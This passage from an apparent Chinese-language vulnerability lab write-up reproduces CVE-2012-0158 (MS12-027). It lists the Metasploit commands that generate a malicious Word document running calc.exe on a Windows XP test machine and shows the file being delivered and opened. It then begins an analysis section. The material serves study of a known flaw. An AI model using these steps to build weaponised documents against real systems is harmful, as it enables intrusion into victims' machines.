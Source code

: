 ## 二、漏洞复现

### 1. 环境搭建

- 靶机环境：Windows XPx86 SP3
- 靶机配置：192.168.44.153
- 攻击机环境：Kali Linux 2021.2
- 攻击机配置：192.168.44.152

### 2. 复现过程

本次复现设置的payload为在目标系统中启动calculator.exe

(1) Kali中启动Metasploit生成木马文件

```cpp,c
搜索Adobe渗透模块  
msf > search cve-2012-0158
调用渗透模块  
msf > use 0 
```
![1.PNG](https://i.loli.net/2021/08/20/NxBb7rnvKcGLgfZ.png)

```cpp,c
设置payload为执行命令行  
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof) > set payload 29
展示配置
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof) > show options
设置命令为运行calculator.exe
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof > set cmd calc
生成木马文件
msf  exploit(windows/fileformat/ms12_027_mscomctl_bof) > exploit 
```
![2.PNG](https://i.loli.net/2021/08/20/4bZ8xtqmkQ9cXew.png)

![3.PNG](https://i.loli.net/2021/08/20/9qyZaRSdM1iQpYJ.png)

(2) 将word木马文件发送至靶机

![4.PNG](https://i.loli.net/2021/08/20/NiqC5M3OLxzlc8v.png)

(3) 运行word

![5.PNG](https://i.loli.net/2021/08/20/fQYhJNeZmHKOWy2.png)

可看到跳出计算器窗口

## 三、漏洞分析

### 1. 基本信息

- 漏洞文件：msf.doc
- 漏洞函数：自定义函数sub_275C89C7
- 漏洞对象：Word文档
